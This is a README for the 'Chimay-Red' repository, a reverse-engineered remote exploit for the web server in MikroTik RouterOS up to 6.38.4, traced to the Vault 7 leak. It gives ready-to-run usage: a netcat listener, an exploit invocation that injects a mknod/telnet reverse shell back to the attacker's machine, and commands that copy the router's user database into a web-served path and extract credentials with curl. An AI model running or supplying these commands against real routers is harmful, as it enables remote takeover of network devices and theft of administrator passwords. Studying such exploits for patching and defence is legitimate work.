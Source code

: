 # Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the [PDF](docs/ChimayRed.pdf) for more info (not updated)  

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

# Working exploits  
As the ROP is dynamically created, you have to extract the `www` binary from the RouterOS firmware.   
(It's placed in `/nova/bin/`)  
Check that the running version is the same.  
To simplify extraction you can use:
```
$ ./tools/getROSbin.py 6.38.4 x86 /nova/bin/www www_binary
```  

## StackClash_x86  
Stack clash exploit using two threads  with ROP chain to run bash commands  

### Reverse shell:  
In a shell:  
```
$ nc -l -p 1234 
```  
In another shell:
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

### Extract users and passwords
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "cp /rw/store/user.dat /ram/winbox.idx"
$ sleep 3 # (wait some seconds that www is restarted)
$ curl -s http://192.168.8.1/winbox/index | ./tools/extract_user.py -
```
